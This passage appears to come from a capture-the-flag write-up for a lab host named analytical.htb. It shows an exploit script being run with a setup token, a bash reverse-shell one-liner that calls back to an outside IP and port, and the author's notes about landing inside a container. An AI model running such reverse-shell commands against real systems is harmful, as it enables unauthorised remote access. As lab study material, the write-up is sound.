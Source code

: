 ![](./IMG/53.png)
> So, I tried the following command 

```
python main.py -u http://data.analytical.htb -t <setup-token> -c "bash -c 'bash -i >& /dev/tcp/10.10.16.59/1337 0>&1'"
```

![](./IMG/15.png)
> Get the reverse shell, but the host name is weird.
> it seems I just get the initial access in container.

![](./IMG/16.png)
> Check the current user 
```
whoami 
id
```
